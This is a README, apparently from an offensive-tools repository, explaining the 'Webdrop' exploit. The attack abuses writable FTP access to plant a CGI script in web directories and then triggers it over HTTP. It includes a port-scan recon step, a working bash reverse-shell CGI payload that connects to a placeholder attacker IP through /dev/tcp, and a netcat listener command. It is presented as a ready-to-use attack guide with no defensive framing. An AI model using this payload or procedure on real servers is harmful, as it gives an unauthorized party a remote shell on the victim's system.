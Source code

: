 # Webdrop Exploit
Webdrop is an exploit that takes advantage of a server using both FTP and a web server.
It involves uploading a reverse shell CGI script to the target, and then triggering it with a request to that site.

## Using This Exploit
The exploit can be done manually in a few steps.

### Recon
Use a port scan to check if port 21 + 80/8080/443/8443 is open.
If the target is using these ports, it may be vulnerable.
Not all servers with these ports open will be vulnerable, sometimes this exploit requires privlages to write to certain locations, and CGI script will need to be allowed.
Use kiwi's portscanner with the webdrop scan file for a quick check.
```bash
./portscanner TARGETIP webdrop
```

### Uploading CGI Script
Once you have access to the FTP server, then attempt to upload the file to various CGI script locations including:
- /usr/lib/cgi-bin
- /var/www/html
- Other locations you find manually that might allow you to access the contents from a browser.
This part may require the FTP server to have high permission levels, so the exploit will not work if you can't upload the script in this step.
Your CGI script can be custom created, or you can use the payload found in the rshell folder of the payloads folder.<br>
Example payload to cause a reverse shell:
```bash
#!/bin/bash
echo "Content-Type: text/html"
bash -i >& /dev/tcp/ATTACKERIP/1337 0>&1
```
With enough privlages to write to the targets FTP server, you will be able to upload any script you want. For this example, a reverse shell script is used.
Make sure to start a reverse shell listener for this attack.
```bash
nc -lvnp 1337
```

### Triggering the Script
You can trigger the script by visiting the website, or sending a curl request to it.

## Resources
Payload: [Reverse Shell Bash CGI Script](../../payload/rshell/cgibash.sh)
Scanfile for Webdrop: [Webdrop Scanfile for Kiwi Portscanner](../../recon/portscanner/webdrop)
Python Automation Script: [Webdrop Automated with Python](webdrop.py)

